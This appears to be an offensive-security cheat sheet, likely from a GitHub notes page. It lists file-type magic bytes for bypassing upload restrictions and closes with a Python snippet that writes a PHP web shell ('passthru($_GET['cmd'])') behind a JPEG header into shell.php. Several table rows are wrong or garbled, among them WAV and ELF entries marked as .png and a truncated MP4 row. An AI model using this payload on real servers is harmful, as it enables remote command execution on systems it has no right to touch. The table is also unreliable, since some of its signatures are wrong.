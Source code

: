 # MAgic Bytes number

## following list of magic bytes to bypass file upload restrictions



| File                           | extension | Bytes                                        |
|--------------------------------|-----------|----------------------------------------------|
| .ai                            |           | 25 50 44 46 [%PDF]                           |
| Bitmap graphic                 | .bmp      | 42 4D [BM]                                   |
| Class File                     | .class    | CA FE BA BE                                  |
| JPEG graphic file              | .jpg      | FFD8FF                                       |
| JPEG 2000 graphic file         | .jp2      | 0000000C6A5020200D0A [....jP..]              |
| GIF graphic file               | .gif      | 47 49 46 38 [GIF89]                          |
| TIF graphic file               | .tif      | 49 49 [II]                                   |
| PNG graphic file               | .png      | 89 50 4E 47 .PNG                             |
| WAV audio file                 | .png      | 52 49 46 46 RIFF                             |
| ELF Linux EXE                  | .png      | 7F 45 4C 46 .ELF                             |
| Photoshop Graphics             | .psd      | 38 42 50 53 [8BPS]                           |
| Windows Meta File              | .wmf      | D7 CD C6 9A                                  |
| MIDI file                      | .mid      | 4D 54 68 64 [MThd]                           |
| Icon file                      | .ico      | 00 00 01 00                                  |
| MP3 file with ID3 identity tag | .mp3      | 49 44 33 [ID3]                               |
| AVI video file                 | .avi      | 52 49 46 46 [RIFF]                           |
| Flash Shockwave                | .swf      | 46 57 53 [FWS]                               |
| Flash Video .flv               | .flv      | 46 4C 56 [FLV]                               |
| peg 4 video file               | .mp4      | 00 00 00 18 66 74 79 70 6D 70 34 32 [....fty |
| MOV video fi|le                | .mov      | 6D 6F 6F 76 [....moov]                       |
| Windows Video file             | .wmv      | 30 26 B2 75 8E 66 CF                         |
| Windows Audio file             | .wma      | 30 26 B2 75 8E 66 CF                         |
| PKZip                          | .zip      | 50 4B 03 04 [PK]                             |
| GZip                           | .gz       | 1F 8B 08                                     |
| Tar file                       | .tar      | 75 73 74 61 72                               |
| Microsoft Installer .msi       |           | D0 CF 11 E0 A1 B1 1A E1                      |
| Object Code File               | .obj      | 4C 01|                                       |
| Dynamic Library .dll           |           | 4D 5A [MZ]|                                  |
| CAB Installer file             | .cab      | 4D 53 43 46 [MSCF]|                          |
| Executable file .exe           |           | 4D 5A [MZ]|                                  |
| RAR file                       | .rar      | 52 61 72 21 1A 07 00 [Rar!...]|              |
| SYS file                       | .sys      | 4D 5A [MZ]                                   |
| Help file                      | .hlp      | 3F 5F 03 00 "[?_..]"|                        |
| VMWare Disk file               | .vmdk     | 4B 44 4D 56 [KDMV]|                          |
| Outlook Post Office file.pst   |           | 21 42 44 4E 42 [!BDNB]|                      |
| PDF Document                   | .pdf      | 25 50 44 46 [%PDF]|                          |
| Word Document                  | .doc      | D0 CF 11 E0 A1 B1 1A E1|                     |
| RTF Document                   | .rtf      | 7B 5C 72 74 66 31 [{ tf1]|                   |
| Excel Document                 | .xls      | D0 CF 11 E0 A1 B1 1A E1|                     |
| PowerPoint Document .ppt       |           | D0 CF 11 E0 A1 B1 1A E1|                     |
| Visio Document                 | .vsd      | D0 CF 11 E0 A1 B1 1A E1|                     |


## generating shell with header

```python

fh = open('shell.php', 'w')
fh.write('\xFF\xD8\xFF\xE0' + '<? passthru($_GET["cmd"]); ?>')
fh.close()
```



tags: magicnumbers bytes bypass upload christian